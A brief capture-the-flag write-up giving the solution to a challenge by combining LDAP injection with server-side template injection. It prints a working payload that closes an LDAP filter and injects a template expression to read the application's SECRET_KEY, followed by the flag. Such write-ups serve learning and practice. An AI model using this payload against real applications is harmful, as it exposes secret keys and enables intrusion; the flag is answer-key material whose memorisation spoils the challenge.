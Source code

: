 # Solution
Craft SSTI in LDAP injection and read value `SECRET_KEY`

Payload:`*)(|({{config["SECRET_KEY"]}}=*)(uid=*)`

Flag:`BtSCTF{_ld4p_1nj3ction_plus_sst1_3quals_fl4g}`

Solved by: 0xad3n